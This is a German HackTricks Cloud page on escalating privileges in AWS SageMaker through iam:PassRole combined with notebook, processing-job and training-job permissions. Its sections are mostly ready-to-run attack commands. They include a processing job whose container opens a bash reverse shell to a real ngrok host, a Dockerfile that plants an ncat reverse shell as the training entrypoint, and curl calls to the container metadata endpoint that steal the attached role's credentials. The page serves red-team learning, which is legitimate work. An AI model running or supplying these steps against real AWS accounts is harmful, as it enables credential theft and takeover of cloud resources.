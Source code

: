 # AWS - Sagemaker Privilegieneskalation

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

## `iam:PassRole`, `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Beginnen Sie mit der Erstellung eines Notebooks mit der IAM-Rolle, die darauf zugreifen kann:
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Die Antwort sollte ein `NotebookInstanceArn`-Feld enthalten, das den ARN der neu erstellten Notebook-Instanz enthält. Anschließend können wir die `create-presigned-notebook-instance-url`-API verwenden, um eine URL zu generieren, über die wir auf die Notebook-Instanz zugreifen können, sobald sie bereit ist:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigiere zur URL mit dem Browser und klicke oben rechts auf "Open JupyterLab", scrolle dann zum Tab "Launcher" und klicke unter dem Abschnitt "Other" auf die Schaltfläche "Terminal".

Jetzt ist es möglich, auf die Metadatenanmeldeinformationen der IAM-Rolle zuzugreifen.

**Potenzielle Auswirkungen:** Privilege Escalation zur angegebenen Sagemaker-Service-Rolle.

## `sagemaker:CreatePresignedNotebookInstanceUrl`

Wenn bereits Jupyter-Notebooks darauf ausgeführt werden und du sie mit `sagemaker:ListNotebookInstances` auflisten kannst (oder sie auf andere Weise entdeckst), kannst du eine URL für sie generieren, auf sie zugreifen und die Anmeldeinformationen stehlen, wie im vorherigen Verfahren angegeben.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potenzielle Auswirkungen:** Privilege Escalation zum Sagemaker-Dienstrolle angehängt.

## `sagemaker:CreateProcessingJob,iam:PassRole`

Ein Angreifer mit diesen Berechtigungen kann **Sagemaker dazu bringen, einen Verarbeitungsauftrag** mit einer Sagemaker-Rolle daran auszuführen. Der Angreifer kann die Definition des Containers angeben, der in einer **AWS verwalteten ECS-Konto-Instanz** ausgeführt wird, und **die Anmeldeinformationen der angehängten IAM-Rolle stehlen**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potenzielle Auswirkungen:** Privilege Escalation zum angegebenen Sagemaker-Service-Rolle.

## `sagemaker:CreateTrainingJob`, `iam:PassRole`

Ein Angreifer mit diesen Berechtigungen kann einen Trainingsjob erstellen, der einen beliebigen Container ausführt, der mit einer Rolle verbunden ist. Daher kann der Angreifer die Anmeldeinformationen der Rolle stehlen.

{% hint style="warning" %}
Dieses Szenario ist schwieriger auszunutzen als das vorherige, da Sie ein Docker-Image generieren müssen, das die Reverse-Shell oder Anmeldeinformationen direkt an den Angreifer sendet (Sie können keinen Startbefehl in der Konfiguration des Trainingsjobs angeben).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potenzielle Auswirkungen:** Privilege Escalation zum angegebenen Sagemaker-Service-Rolle.

## `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Ein Angreifer mit diesen Berechtigungen kann (potenziell) einen **Hyperparameter-Trainingsjob** erstellen, der **beliebigen Container ausführt**, mit einer **angehängten Rolle**.\
_Ich habe es nicht ausgenutzt wegen Zeitmangels, aber es sieht ähnlich aus wie die vorherigen Exploits, fühlen Sie sich frei, einen PR mit den Exploitationsdetails zu senden._

# Referenzen
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Lernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
